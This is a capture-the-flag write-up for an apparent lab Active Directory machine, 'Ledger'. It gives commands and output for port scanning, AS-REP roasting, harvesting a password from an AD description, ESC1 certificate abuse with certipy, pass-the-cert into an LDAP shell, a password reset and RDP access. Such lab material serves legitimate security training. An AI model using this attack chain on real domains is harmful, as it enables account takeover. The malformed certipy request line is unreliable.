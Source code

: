 # Ledger

## Machine Info

Domain name: `THM.local`

FQDN: `labyrinth.thm.local`&#x20;

Dinaub SID: `S-1-5-21-1966530601-3185510712-10604624`





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.242.176 -oN port_scan.txt

Nmap scan report for 10.10.242.176
Host is up (0.043s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-29 07:27:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-07-28T07:22:51
|_Not valid after:  2026-01-27T07:22:51
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enum

With this nmap command we can notice that we anonymous ldap is enabled, and we can use this flaw to enum the Domain.

```bash
nmap -p 389 --script ldap-search 10.10.242.176
```



### AS-REP Roastable user

Now, with impacket we can enumerate the user with "**Do not require Kerberos preauthentication**" parameter to enable.

```bash
impacket-GetNPUsers THM.local/ -dc-ip 10.10.242.176

Name            MemberOf  PasswordLastSet             LastLogon  UAC      
--------------  --------  --------------------------  ---------  --------
SHELLEY_BEARD             2023-05-30 11:46:05.083950  <never>    0x410200 
ISIAH_WALKER              2023-05-30 11:46:09.380690  <never>    0x410200 
QUEEN_GARNER              2023-05-30 11:46:14.208632  <never>    0x410200 
PHYLLIS_MCCOY             2023-05-30 11:46:20.583409  <never>    0x410200 
MAXINE_FREEMAN            2023-05-30 11:46:51.475615  <never>    0x410200 
```

Request the tgt ticket for all user above.

```bash
impacket-GetNPUsers THM.local/SHELLEY_BEARD -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/ISIAH_WALKER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/QUEEN_GARNER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/PHYLLIS_MCCOY -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/MAXINE_FREEMAN -dc-ip 10.10.242.176 -no-pass
```

Copy all results in a file and try to crack at least one.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tgts_ticket.txt
```

Nothing results :(



### AD Object description

Check if there are some passwords in the user's AD description

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://thm.local -b "dc=thm,dc=local" "(objectClass=user)" cn description

[..snip..]
# SUSANNA_MCKNIGHT, Test, ITS, Tier 1, thm.local
dn: CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
cn: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
[..snip..]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

We found a possible password for the SUSANNA\_MCKNIGHT user. Using cme check if the password is still valid.

```bash
crackmapexec smb 10.10.242.176 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```

<figure><img src="../../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

It's still vaild.



## Bloodhound enumeration

With the credentials found, enumerate the Domain with bloodhound

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.242.176 -dc labyrinth.thm.local -d thm.local --zip -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```
{% endcode %}

The bloodhound research didn't find out interesting things to escalate our priviliges



## AD CS finding

Try to find out some Certs misconfiguration .

{% code overflow="wrap" %}
```bash
certipy find -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -dc-ip 10.10.242.176 -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```
{% endcode %}

From this output we can see that the CA:

```
Certificate Authorities             : thm-LABYRINTH-CA
```

It's vulnerable to ESC1.

```
ESC1        : Enrollee supplies subject and template allows client authentication.
```

### ESC1 flaw

Using this flaw we can request a certificate for any user in the Domain.&#x20;

{% code overflow="wrap" %}
```bash
certipy req -ca 'thm-LABYRINTH-CA' -dc-ip '10.10.242.176' -u 'SUSANNA_MCKNIGHT' -p certipy req -u "SUSANNA_MCKNIGHT@thm.local" -p 'CHANGEME2023!' -dc-ip '10.10.102.159' -target "labyrinth.thm.local" -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
```
{% endcode %}

Now the certificate is broken and when i try to request the TGT, it generates a PADATA error because the certificate is expired.

The solution is extract the .key and .crt from the pfx and login with Pass-the-cert python tool.

{% code overflow="wrap" %}
```bash
certipy cert -pfx administrator.pfx -nokey -out "administrator.crt"
certipy cert -pfx administrator.pfx -nocert -out "administrator.key"

python3 passthecert.py -action ldap-shell -crt ../../administrator.crt  -key ../../administrator.key -domain thm.local -dc-ip 10.10.102.159
```
{% endcode %}

Now that we have a LDAP-SHELL we can use the function `change_password` to change the administrator  user password and access to the system as administrator.

```bash
change_password BRADLEY_ORTIZ Password123!
```

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## RDP as administrator user

```bash
xfreerdp3 /v:10.10.102.159 /u:BRADLEY_ORTIZ /p:Password123!
```

Run as Powershell as administrator and print the user and root flag.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>
